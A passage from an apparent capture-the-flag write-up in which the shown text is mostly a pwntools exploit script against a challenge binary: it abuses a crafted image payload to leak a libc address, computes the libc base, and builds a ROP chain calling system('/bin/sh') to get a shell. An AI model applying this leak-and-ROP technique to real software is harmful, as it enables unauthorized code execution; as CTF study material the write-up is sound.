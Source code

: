 ### action!
Now we're ready to code the actual exploit part
```python
gotoleakpayload = wrap_in_pcg(packing.p8(offset_to_return_addr) * offset_from_mov_to_puts + b'\x02') #an additional normal pixel needed to print at least one used color to execute printf which allows us the leak, can be anything from \x00 to \x07
gotooverflowpayload = wrap_in_pcg(packing.p8(offset_to_return_addr) * offset_from_mov_to_img_change_title)

r.recvuntil(b">> ") #read program's output until
r.sendline(b'3') #send input to the program
r.sendline(gotoleakpayload)
r.sendline(b'2')
r.recvuntil(b'times\n')
leak = packing.u64(r.recvline().rstrip().ljust(8, b'\0')) - libc.symbols['funlockfile'] #unpack the libc leak into a 64 bit integer and substract the offset to get the base
log.info(f'leaked libc base: {hex(leak)}')

r.recvuntil(b'>> ')
r.sendline(b'3')
r.sendline(gotooverflowpayload)
r.sendline(b'2')

libc.address = leak
rop = ROP(libc)
rop.call("system", [next(libc.search(b'/bin/sh\0'))]) #craft the system("/bin/sh") call using gadgets from libc

r.sendline(b'A' * 24 + rop.chain()) #24 bytes of padding until the return address in image_change_title function, append the ropchain after the padding

r.interactive() #at this point we have the shell access so just return control to the console
```

Let's just run the resulting python script and see if we can get the flag:

![flag](/assets/posts/pwnpcgwrite/pcgflag.png)
